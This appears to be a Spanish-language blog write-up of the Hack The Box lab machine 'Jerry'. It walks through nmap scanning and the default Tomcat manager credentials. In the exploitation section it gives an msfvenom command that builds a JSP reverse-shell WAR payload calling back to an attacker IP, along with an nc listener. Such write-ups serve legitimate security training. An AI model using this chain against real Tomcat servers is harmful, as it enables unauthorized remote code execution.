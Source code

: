 ```yaml
---
layout:   post
title:    "Write Up Jerry."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy, Windows, Upload, Tomcat, Payload, Java, RCE, Default-Credentials, Write-Up-Machine, Starting-Point, eJPT]
---
```

![list](/assets/img/jerry/Captura de pantalla (140).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.95 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-00-57.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,8080 -sV -sC 10.10.10.95 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-02-30.png){:.lead width="800" height="100" loading="lazy"}


***
### Investigación

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Ispeccionamos la web.

![list](/assets/img/jerry/Kali-2022-09-08-22-06-39.png){:.lead width="800" height="100" loading="lazy"}

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb.

![list](/assets/img/jerry/Kali-2022-09-08-22-04-28.png){:.lead width="800" height="100" loading="lazy"}

En google podemos bucar claves por defecto segun que tecnologias averiguemos o 

simplemente podemos hacer user/pass desing o (usuario y contraseñas por defecto) 

podemos usar burpsuite para inteceptar peticiones y averiguar mas datos pero en 

este caso la cxredeciales estan expuestas 

`user=tomcat pass=s3cret`.

![list](/assets/img/jerry/Kali-2022-09-08-22-11-20.png){:.lead width="800" height="100" loading="lazy"}

***
## Analisis de vulnerabilidades

Ingresamos al panel de configuiaracion  e igual ispeccionamos la pagina es algo 

que deberemos hacer habitual en cada maquina que nos dipongamos a explotar, vemos 

la posibilidad de subir archivos .war, por lo que podemos explotar esa ventaja ,

podreos intentar subir cualaquier archivo a modo de prueba pero no nos deja. 

![list](/assets/img/jerry/Kali-2022-09-08-22-13-45.png){:.lead width="800" height="100" loading="lazy"}

***
## Explotacion

Por lo que crearemos un payload o (carga util) con mfsvenom para cosegir una 

reverse shell. 

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war > shell.war
```
El LHOST Y LPORT deberan ser la ip de tu VPN y un puerto que tu quieras. 
{:.note}

La subimos al srvidor y con el listener a la ecucha `nc -lvnp 443` damos clic 

donde dice el nombre de nuestra carga util lo que hara que se conecte a nuestro 

nc otrogandonos la reverse shell.

***
## Escalacion de privilegios

Jerry no tiene escalacion de privilegios ya que ya somos root ,pero podemos 

bucar la flag, este caso se ecuentar en el mismo archivo las dos flags en el 

escritorio.

![list](/assets/img/jerry/Kali-2022-09-08-23-24-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
🎉 Felicitaciones ya has comprometido Jerry de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}